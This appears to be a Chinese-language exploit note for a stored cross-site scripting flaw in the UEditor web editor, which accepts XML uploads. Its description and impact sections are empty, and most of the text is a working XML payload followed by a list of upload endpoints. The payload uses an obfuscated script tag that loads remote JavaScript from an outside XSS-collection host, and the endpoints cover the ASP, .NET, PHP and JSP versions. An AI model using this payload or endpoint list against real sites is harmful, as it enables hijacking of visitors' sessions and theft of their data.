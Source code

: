 ```yaml
---
title: "ueditor 允许xml上传的xss漏洞"
id: zhfly3207
---
```


# ueditor 允许xml上传的xss漏洞

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

```
<html>
<head></head>
<body>
<something:script src="</tExtArEa>'"><sCRiPt sRC=http://xssye.com/tVbS></sCrIpT>" xmlns:something="xss平台地址">1234</something:script>
</body>
</html> 
```

Ueditor 默认支持上传 xml ：config.json可以查看支持上传的后缀

```
/ueditor/asp/config.json
/ueditor/net/config.json
/ueditor/php/config.json
/ueditor/jsp/config.json 
```

上传文件路径

```
/ueditor/index.html

/ueditor/asp/controller.asp?action=uploadimage

/ueditor/asp/controller.asp?action=uploadfile

/ueditor/net/controller.ashx?action=uploadimage

/ueditor/net/controller.ashx?action=uploadfile

/ueditor/php/controller.php?action=uploadfile

/ueditor/php/controller.php?action=uploadimage `/ueditor/jsp/controller.jsp?action=uploadfile

/ueditor/jsp/controller.jsp?action=uploadimage` 
```